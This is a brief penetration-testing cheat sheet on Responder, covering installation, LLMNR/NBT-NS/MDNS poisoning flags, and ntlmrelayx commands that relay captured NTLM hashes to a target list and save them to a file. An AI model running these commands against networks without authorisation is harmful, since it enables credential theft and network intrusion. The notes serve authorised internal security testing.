 # Responder

Responder is an LLMNR, NBT-NS and MDNS poisoner. Easy footholds on nearly every internal pentest.

## Installation 

Install Responder using git: 

```git clone https://github.com/lgandx/Responder```

## Usage

Basic Usage \
```./Responder.py -I [INTERFACE] -dwP```

Relay hashes obtained \
```./Responder.py -I [INTERFACE] -dwP``` \
```python ntlmrelayx.py -tf targets.txt```

We can also save the hashes being relayed so they aren't yeeted into the void \
```python ntlmrelay.py -tf targets.txt -of NTLMOutput.txt```

## References
* [Laurent Gaiffé Blog](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)
* [Practical guide to NTLM Relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

